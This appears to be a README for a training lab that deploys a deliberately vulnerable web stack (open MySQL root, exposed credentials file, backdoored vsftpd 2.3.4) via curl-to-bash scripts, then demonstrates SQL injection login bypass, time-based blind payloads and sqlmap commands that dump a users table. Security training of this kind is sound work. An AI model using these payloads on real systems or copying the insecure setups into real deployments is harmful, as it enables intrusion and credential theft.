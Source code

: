 # Insecure Web Server Deployment

This repo contains a script to deploy an insecure webserver stack:
- nginx (credentials.txt indexed)
- mysql (Root user is open + default root/root)
- FTP (vsftp) (https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
    - POC -> (https://gopikrish1792.medium.com/installing-exploiting-vulnerable-ftp-service-on-ubuntu-17ac76c9561a)
    - Source -> (https://github.com/nikdubois/vsftpd-2.3.4-infected)

# Run the Script

```bash
cd /home/root
apt install -y curl
curl -s https://raw.githubusercontent.com/TheMatrix97/Insecure-WebStack/refs/tags/1.0.0/script.sh | bash
```

# Part 2

Run the script
```bash
curl -s https://raw.githubusercontent.com/TheMatrix97/Insecure-WebStack/refs/tags/2.0.0/script_part2.sh | bash
```

Let's try some injections:

```text
User: admin
Password: '

Throws error 500
```

## Basic SQLI

First, let's try to bypass de login for user admin:

```text
User: admin
Password: ' OR '1'='1
```

How could I get the password? Probably with a blind time-based attack?

**Time-Based**
```text
User: ' OR (select sleep(15));#
Password: asd
```


## SQLMap


Exploit the time-based blind sqli found in login.php to get the dbs

```bash
sqlmap -u "http://10.0.2.10/login.php" --data="username=1&password=2" --dbs
```

Then, dump the users table to get the username / passwords

```bash
sqlmap -u "http://10.0.2.10/login.php" --data="username=1&password=2" -D login_app -T users --dump --time-sec 1
```

Basic sqli check: `and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#`